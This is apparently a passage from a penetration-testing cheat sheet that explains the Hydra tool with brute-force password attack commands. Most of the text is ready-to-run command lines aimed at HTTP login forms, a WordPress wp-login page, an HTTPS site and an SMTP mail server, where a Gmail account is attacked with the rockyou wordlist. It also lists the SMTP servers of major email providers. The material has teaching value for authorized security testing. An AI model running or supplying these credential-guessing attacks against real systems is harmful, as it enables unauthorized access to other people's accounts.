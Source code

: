 ```sh
hydra 192.168.1.69 http-post-form "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" \
-L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
# Here we specified:
 # Host = 192.168.1.69
 # Method = http-form-post
 # URL = /w3af/bruteforce/form_login/dataReceptor.php
 # Form parameters = user=^USER^&pass=^PASS^
 # Failure response = Bad login
 # Users file = users.txt
 # Password file = pass.txt
 # Threads = -t 10
 # Wait for timeout = -w 30
 # Output file = -o hydra-http-post-attack.txt
```

We can make more complicated examples, for example by specifying specific
headers or cookies with:

```sh
hydra 192.168.1.69 http-post-form "/foo.php:user=^USER^&pass=^PASS^:S=success:C=/page/cookie:H=X-Foo: Foo" \
-L users.txt -P pass.txt -t 10 -w 1 -o hydra-http-post-attack.txt
 # in this case we specify that the cookie should be page/cookie
 # cookies can be specified with C=
 # and we also added an header with H= 
 # this header is called X-Foo and has as value Foo
```


```sh
hydra -L users.txt -P words.txt https://www.site.com  https-post-form "/index.cgi:login&name=^USER^&password=^PASS^&login=Login:Not allowed" &
 # here we use https-post-form, since the website uses https
```


```sh
hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
# now we check for success by using S=Location, since wordpress uses a Location
# header to redirect the user, we can think about S as a sort of grep applied to
# the HTTP response
```

## SMTP

```sh
hydra smtp.victimsemailserver.com smtp -l useraccount@gmail.com -P '/root/Desktop/rockyou.txt' -s portnumber -S -v 
```
Generally the port used for SMTP is 465 and common SMTP server for common email
services are:
    * smtp.mail.yahoo.com
    * smtp.gmail.com
    * smtp.live.com (but on poort 587)
